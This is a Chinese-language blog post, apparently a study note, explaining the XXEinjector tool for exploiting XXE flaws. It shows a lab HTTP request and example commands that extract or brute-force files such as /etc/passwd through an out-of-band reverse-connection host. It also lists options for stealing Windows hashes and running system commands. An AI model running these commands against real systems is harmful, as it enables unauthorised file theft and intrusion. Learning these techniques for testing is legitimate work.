 ```yaml
---
title: XXE漏洞利用工具及其资源
date: 2019-03-04 16:02:01
tags: 
	- Tools
	- Payload
	- Cheatsheet
	- XXE
categories:
	- WEB漏洞学习
---
```


## 一、XXE Payload Cheatsheet

https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection

## 二、XXEinjector工具

### 0x00 XXEinjector概述

XXEinjector 是一款XXE Fuzz漏洞利用工具。

XXEinjector 用于检索（爆破）存在XXE漏洞的目标服务器的文件或目录。

XXEinjector 可以使用直接检索和带外的方式。

<!-- more -->

XXEinjector 的目录遍历（`--path`）只能用于Java应用程序。其他类型的应用程序只能使用爆破（`--brute`）的方法。

带外方式要求目标主机可以访问我们指定的主机（`--host`），因为采用带外方式时目标主机需要从我们指定的IP上获取恶意dtd文件，以及会将检索到的文件以FTP传输的方式传输到该IP上。（XXEinjector会自动运行WEB服务以及恶意dtd文件以及FTP服务器。）

工具地址：https://github.com/enjoiz/XXEinjector

### 0x01 基本重要参数使用方法

`--file`：这个参数是必选项，用于指定一个HTTP Request消息的文件。HTTP请求文件中要包含XML，或者可以使用"XXEINJECT"来标记注入点。

> ```http
> POST /pikachu/vul/xxe/xxe_1.php HTTP/1.1
> Host: 192.168.199.111
> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
> Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
> Accept-Encoding: gzip, deflate
> Referer: http://192.168.199.111/pikachu/vul/xxe/xxe_1.php
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 30
> Connection: close
> Upgrade-Insecure-Requests: 1
> 
> xml=XXEINJECT&submit=%E6%8F%90%E4%BA%A4
> ```

`--path`：指定要遍历的目录或文件。遍历目录只适用于Java应用程序。若是单一文件，则哪种程序都可以用。爆破文件则应使用参数`--brute`。

> `--path=/etc`
>
> `--path=s://test.txt`

`--brute`：该选项用于爆破文件，用于指定包含`文件路径`的字典文件。结果在`brute.log`文件中。

> ```
> s://test.txt
> s://test1.txt
> /etc/passwd
> ```

**工具包含直接和带外两种检索文件的方式。**

**默认是带外方式：**

`--oob=ftp/http/gopher`：带外方式提供ftp(默认)、http、gopher三种协议。

> - ftp协议适用于任意类型WEB程序。
> - http、gopher协议只适用于Java < 1.7的Java WEB应用程序。

`--host`：采用带外方式时，必选项。用于指定反连接IP。目标主机会从该IP获取恶意dtd文件，以及会将我们要获取的文件发到该IP的ftp上。

`--httpport`：`--host`指定的主机监听的WEB服务端口。默认80

`--ftpport`：`--host`指定的主机监听的FTP服务端口。默认21

**直接方式**

`--direct`：表示采用直接方式。还需要用一个独特的字符串作为该参数的值，具体看参数解释。

**其他参数：**

`--verbose`：显示详细信息，可以显示攻击数据包等。推荐使用。

`--phpfilter`：使用PHP filter对检索文件进行Base64编码。

`--ssl`：用于https站点。

`--expect`：使用 PHP expect 扩展执行系统命令。

`--output`：`--brute`输出结果保留的文件。

### 0x03 使用实例

- `ruby XXEinjector.rb --file=req.txt --host=192.168.1.1 --path=s://test.txt --verbose --phpfilter`

> 结果在Logs\IP\目录下。

- `ruby XXEinjector.rb --file=req.txt --host=192.168.1.1 --brute=filepath.txt --verbose --phpfilter --ssl`

> 结果在brute.log文件中。

```
--host	    必选项 - our IP address for reverse connections. (--host=192.168.0.2)
--file	    必选项 - 包含XML的HTTP Request文件。你也可以在请求文件中用"XXEINJECT"来标记的注入点。                      (--file=/tmp/req.txt)

--path	    如果要枚举目录，这是必选项 - 要枚举的目录路径。 (--path=/etc)
--brute	    如果要枚举文件，这是必选项 - 包含要枚举的文件路径的字典文件。 (--brute=/tmp/brute.txt)
--logger    Log results only. Do not send requests. HTTP logger looks for "p" parameter with             results.
  
--rhost	    目标主机的IP或者域名. 只有在Request文件中没用HOST头部时才使用. (--rhost=192.168.0.3)
--rport	    目标主机的端口. 只有在Request文件中没用HOST头部时才使用，没有默认值. (--rport=8080)

--oob	    带外漏洞利用方法. FTP是默认的方法且FTP可以用于任意WEB程序中.HTTP只能用于爆破Java < 1.7             的WEB程序的文件或目录. Gopher只能用于爆破Java < 1.7的WEB程序的文件或目录. (--                     oob=http/ftp/gopher)

--direct	直接利用漏洞而不是带外方法. Unique mark should be specified as a value for this                 argument. This mark specifies where results of XXE start and end. Specify --xml               to see how XML in request file should look like. (--direct=UNIQUEMARK)

--cdata	    Improve direct exploitation with CDATA. Data is retrieved directly, however OOB               is used to construct CDATA payload. Specify --cdata-xml to see how request should             look like in this technique.

--2ndfile	File containing valid HTTP request used in second order exploitation. 
			(--2ndfile=/tmp/2ndreq.txt)

--phpfilter	使用PHP filter对文件进行Base64编码.
--netdoc    使用netdoc协议而不是file协议。 (Java).
--enumports	Enumerating unfiltered ports for reverse connection. Specify value "all" to     			enumerate all TCP ports. (--enumports=21,22,80,443,445)

--hashes	窃取Windows哈希值.
--expect	使用 PHP expect 扩展执行系统命令. (--expect=ls)
--upload	Uploads specified file using Java jar schema into temp file. (--                              upload=/tmp/upload.txt)

--xslt	    Tests for XSLT injection.

--ssl	    Use SSL.
--proxy	    Proxy to use. (--proxy=127.0.0.1:8080)
--httpport	   Set custom HTTP port. (--httpport=80)
--ftpport	   Set custom FTP port. (--ftpport=21)
--gopherport   Set custom gopher port. (--gopherport=70)
--jarport	   Set custom port for uploading files using jar. (--jarport=1337)
--xsltport	   Set custom port for XSLT injection test. (--xsltport=1337)

--test	    该参数用于测试校验Payload。会将发送的Payload显示出来而不会发送到目标主机。

--urlencode	URL encode injected DTD. This is default for URI.
--nodtd	     该参数用于想使用自己提供的dtd文件时，工具默认会生成并使用dtd文件。使用"--dtd"可以看dtd              文件格式。

--output	爆破的结果输出到的文件。 默认情况下爆破的结果存放在brute.log文件中
			(--output=/tmp/out.txt)

--timeout	    Timeout for receiving file/directory content. (--timeout=20)
--contimeout	Timeout for closing connection with server. This is used to prevent DoS                        condition. (--contimeout=20)

--fast	    Skip asking what to enumerate. Prone to false-positives.
--verbose	    Show verbose messages.
```

## 0x03 XXE学习资源

https://nosec.org/home/detail/2139.html